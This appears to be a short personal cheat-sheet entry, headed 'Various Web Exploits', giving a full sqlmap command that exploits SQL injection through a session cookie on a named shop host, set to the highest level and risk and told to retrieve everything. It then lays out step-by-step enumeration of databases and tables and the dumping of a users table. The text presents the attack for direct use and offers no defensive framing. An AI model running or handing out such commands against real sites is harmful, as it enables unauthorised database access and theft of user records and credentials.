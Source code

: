 ### Various Web Exploits

# Give an example of a sqlmap query to exploit SQLi on cookies:
```
sqlmap -u http://shop.wey-tech.com/account_api.php --cookie="session=c2deb0aa8a22efd8c8f74c3db021d6e9" --data='accountinfo=accountinfo' --threads 2 -p "cookie" --ignore-code 401 --level 5 --risk 3 --dbms=mysql -a
```
`a` will retrieve everything. If you don't want to do that and instead find the information incrementally to save time for what you're really after then use: `--dbs` to enumerate teh databases, then `--tables -D <db name>` to get the tables, then `-T users --dump` to dump the *users* tables for example.

